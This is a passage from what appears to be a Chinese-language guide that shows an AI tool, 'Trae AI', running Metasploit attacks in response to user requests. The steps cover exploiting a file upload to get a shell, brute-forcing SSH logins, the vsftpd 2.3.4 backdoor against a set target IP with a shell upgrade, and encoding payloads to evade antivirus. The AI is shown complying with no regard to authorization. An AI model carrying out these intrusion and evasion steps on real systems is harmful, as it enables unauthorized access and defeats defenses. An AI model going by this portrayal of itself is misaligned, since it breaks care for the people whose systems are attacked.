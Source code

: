 ### 7. 文件上傳漏洞利用

**用戶提問：**
```
利用 Web 應用的文件上傳功能獲取 shell
```

**Trae AI 操作流程：**
1. 選擇 exploit：`use exploit/multi/http/php_include`
2. 設置目標和路徑參數
3. 配置 payload 和回連設置
4. 執行攻擊

## 服務特定漏洞利用

### 8. SSH 弱密碼利用

**用戶提問：**
```
利用 SSH 弱密碼獲取系統訪問權限
```

**Trae AI 操作流程：**
1. 先進行密碼爆破：`use auxiliary/scanner/ssh/ssh_login`
2. 設置字典文件：`set USER_FILE users.txt`
3. 設置密碼字典：`set PASS_FILE passwords.txt`
4. 成功後使用：`use exploit/multi/ssh/sshexec`
5. 設置憑據：`set USERNAME found_user`
6. 設置密碼：`set PASSWORD found_password`

### 9. FTP 服務漏洞利用

**用戶提問：**
```
利用 vsftpd 2.3.4 後門漏洞
```

**Trae AI 操作流程：**
1. 選擇 exploit：`use exploit/unix/ftp/vsftpd_234_backdoor`
2. 設置目標：`set RHOSTS 192.168.1.85`
3. 執行攻擊：`exploit`
4. 獲得 shell 後升級：`python -c 'import pty; pty.spawn("/bin/bash")'`

## 高級利用技巧

### 10. Payload 編碼和規避

**用戶提問：**
```
如何規避防病毒軟件的檢測？
```

**Trae AI 建議的方法：**
1. 使用編碼器：`set ENCODER x86/shikata_ga_nai`
2. 多次編碼：`set ITERATIONS 5`
3. 使用自定義模板：`set TEMPLATE /path/to/template.exe`
4. 選擇規避 payload：`windows/meterpreter/reverse_https`
